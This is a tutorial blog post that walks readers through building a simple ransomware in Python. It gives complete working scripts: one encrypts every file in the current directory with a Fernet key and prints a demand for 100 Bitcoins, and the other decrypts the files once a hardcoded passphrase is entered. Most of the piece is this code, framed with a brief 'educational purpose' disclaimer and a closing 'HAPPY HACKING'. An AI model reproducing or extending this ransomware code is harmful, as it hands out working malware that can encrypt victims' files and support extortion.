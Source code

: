 # Create ransomware script in python

Today, we're going to create our own ransomware.  
Aha, sounds interesting? It's not so complicated to build a simple one. We just need a system to test on where python is installed.  

> DISCLAIMER: [The article](https://dev.to/nitinkumar30/how-to-create-ransomware-script-in-python-test-28i0) I've written is purely for educational purpose only. My sole aim here is to teach how to create your ransomware script in python3.  

---

## What is a ransomware??

Ransomware is a malware designed to deny a user or organization access to files on their computer. By encrypting these files and demanding a ransom payment for the decryption key, cyberattackers place organizations in a position where paying the ransom is the easiest and cheapest way to regain access to their files.  

The malware first gains access to the device. Depending on the type of ransomware, either the entire operating system or individual files are encrypted. A ransom is then demanded from the victim.  

---

## Requirements:

1. A linux-based OS or [Windows Subsystem for Linux](https://dev.to/nitinkumar30/use-search-files-created-using-ubuntu-on-windows-1jid)  
2. Internet connection  

---

## Our approach !!

1. First, we'll need encrypt method which can encrypt the files  
2. Then, we need to decrypt mthod which can decrypt the encrypted files if ransom is provided  
3. We also need to keep key, which will be used to encrypt the files & folders, & then decrypt the files, once ransom is fulfilled  

---

## Let's begin !!

Let's break this into small chunks:

1. Create necessary files & folders  
2. Write down our script for Encrypting the files  
3. Write down our script for Decrypting the files  
4. Giving the finishing touch to the project  

---

## 1. Create necessary files & folders

Step 1: As everything is configured for you, open the Ubuntu on Windows. If not yet, checkout my recent post on it [here](https://dev.to/nitinkumar30/use-search-files-created-using-ubuntu-on-windows-1jid)  
Step 2: Create a new folder using `mkdir ransomware` to create a directory named **ransomware**  
Step 3: Navigate to that directory using `cd ransomware`  
Step 4: Create some random files with below commands:  
        

```
        echo "This is a file" > file.txt
```

```
        echo "This is another file" > file2.txt
```
  

```
        echo "This is yet another 3rd file" > file3.txt
```
  

```
        echo "What is your name btw" > name.txt
```

Step 5: Now, create a directory with following command - `mkdir test`  
Step 6: You can check the contents of the files just created by running **cat** command - `cat file.txt` or `cat name.txt`  

---

## 2. Write down our script for Encrypting the files

Step 1: Now, we need to create our encrypting file to encrypt the required files, type the command - `nano voldemort.py`. This will create a python file with name voldemort & will open in vim editor.  
Step 2: Following is the python code for encryption part.  


```
#!/usr/bin/env python3

# importing necessary libraries
import os
from cryptography.fernet import Fernet

# Let's find some files

files = []

# checking all the files in current directory
for file in os.listdir():
        # ignoring the encrypting, decrypting & the key file
	if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
		continue
	if os.path.isfile(file):
		files.append(file)
# print all the files which is going to be infected with encryption
print(files)

# Generate the key used to encrypt the files
key = Fernet.generate_key()

# print(key)

# write the key into the file thekey.key
with open("thekey.key", "wb") as thekey:
	thekey.write(key)

# This is the main method which is encrypting all the files with the given key
for file in files:
	with open(file, "rb") as thefile:
		contents = thefile.read()
	contents_encrypted = Fernet(key).encrypt(contents)
	with open(file, "wb") as thefile:
		thefile.write(contents_encrypted)

# The message which will be shown to the users
print("All your files has been encrypted !!\nSend me 100 Bitcoins or I'll delete them in 24 hours.")
```

---

## 3. Write down our script for Decrypting the files  

Step 1: Now, we need to create our decrypting file. Type in the command - `nano decrypt.py`  
Step 2: Following is the python code for decryption part.  

```
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Let's find some files

files = []

for file in os.listdir():
	if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
		continue
	if os.path.isfile(file):
		files.append(file)

print(files)


# key = Fernet.generate_key()

# print(key)

with open("thekey.key", "rb") as key:
	secretkey = key.read()

secretphrase = "coffee"

user_phrase = input("Enter the secret phrase to decrypt your files\n")
if user_phrase == secretphrase:
	for file in files:
		with open(file, "rb") as thefile:
			contents = thefile.read()
		contents_decrypted = Fernet(secretkey).decrypt(contents)
		with open(file, "wb") as thefile:
			thefile.write(contents_decrypted)

	print("Congrats, your files has been decrypted & safe now. Enjoy your coffee")
else:
	print("Sorry, wrong secret phrase. Send me more Bitcoins !!")

```

> Here, you'll observe that the encryption & decryption script are almost similar. Yes, they're. Actually, I've just copied the exact encryption file to create the decryption file & then done some minor changes to it.

---

## 4. Giving the finishing touch to the project  

Now is the time to test our ransomware is working or not.

Here, we'll check by first checking the files are having decrypted data or not.  
Then, we'll run the encrypt file & check the files are encrypted or not  
Then, we'll run the decrypt file & check the files are decrypted with original data or not.  

Step 1: Run the command - `cat file.txt` & then for remaining files  
Step 2: Run the encrypting file - `python3 voldemort.py`  
Step 3: Rerun step 1. You should see some random string is there in the contents of files  
Step 4: Now, run the decrypting file - `python3 decrypt.py`. Give secretphrase as **coffee** to pass the security check. You can change it in decrypt file.  
Step 5: Rerun step 1. You should see now, all the files will have original data of files.   

---

Note - Never run the encrypt file twice, else, you'll not be able to recover your files again. You can run encrypt file n number of times, but not the decrypt file.  

- This complete tutorial can be found in [NetworkChuck video](https://youtu.be/UtMMjXOlRQc?si=UeHz6Wyy4IohhAPt)  

---

Feel free to reach out to me via [LinkedIn](https://www.linkedin.com/in/nitin30kumar/), [Instagram](https://www.instagram.com/nitinkumar30.py/) or checkout my [Portfolio](https://nitinkr.me).

HAPPY HACKING !!!

